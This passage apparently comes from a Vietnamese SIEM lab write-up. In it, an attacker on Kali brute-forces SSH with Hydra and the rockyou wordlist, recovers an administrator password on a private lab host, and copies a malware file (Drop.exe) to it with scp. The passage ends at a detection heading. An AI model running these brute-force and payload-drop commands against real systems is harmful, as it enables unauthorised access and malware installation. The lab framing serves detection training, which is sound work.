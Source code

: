 
```
┌──(kali㉿kali)-[~/Downloads/share]
└─$ hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt ssh://172.16.254.10
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-29 12:40:32
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.16.254.10:22/
[22][ssh] host: 172.16.254.10   login: administrator   password: iloveu
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-29 12:40:44

```
##### Đã có credentials tiến hành login vào trong
##### Sau khi đăng nhập vào được, mình tiến hành bước tiếp theo của quy trình tấn công là drop file mã độc xuống và chạy
##### Trên máy linux chạy lệnh sau 
```
┌──(kali㉿kali)-[~/Downloads/test]
└─$ scp /home/kali/Downloads/test/Drop.exe administrator@172.16.254.10:/C:/Users/Administrator/Downloads/Drop.exe

administrator@172.16.254.10's password: 
Drop.exe                                      100%   16KB  12.2MB/s   00:00    
```
![image](/assets/posts/siemlab/30.png)
# Phát hiện